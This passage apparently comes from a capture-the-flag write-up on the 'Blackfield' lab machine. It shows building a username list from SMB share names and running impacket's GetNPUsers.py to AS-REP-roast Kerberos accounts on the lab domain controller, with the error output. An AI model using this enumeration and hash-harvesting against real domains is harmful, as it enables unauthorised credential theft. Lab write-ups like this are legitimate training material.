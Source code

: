 ```shell
  ZScozzari                           D        0  Wed Jun  3 22:17:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 22:17:12 2020
  ZWausik                             D        0  Wed Jun  3 22:17:12 2020

                7846143 blocks of size 4096. 3881279 blocks available
smb: \> 
```
All these directories are empty, but the names of these directories look like usernames,<br>
let's make a wordlist awk can help us in doing this.
Copy and paste the above output in a file usernames.txt
```shell
sid@kali:~$ awk '{ print $1 }' usernames.txt > users.lst
```
### Generating TGT with help of GetNPUsers.py

We can use GetNPUsers.py from the impacket tool which can check if there are any valid usernames and if they don't require Kerberos pre-authentication(PREAUTH) enabled.<br>
From the nmap scan we know that the domain name is BLACKFIELD.local<br>

```shell
sid@kali:~$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -usersfile users.lst -outputfile kerberos_hashes.txt   -no-pass BLACKFIELD.local/
```
```
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
We find that we get a hash for the username support.
```
sid@kali:~$ cat kerberos_hashes.txt                                                                                                                  
```
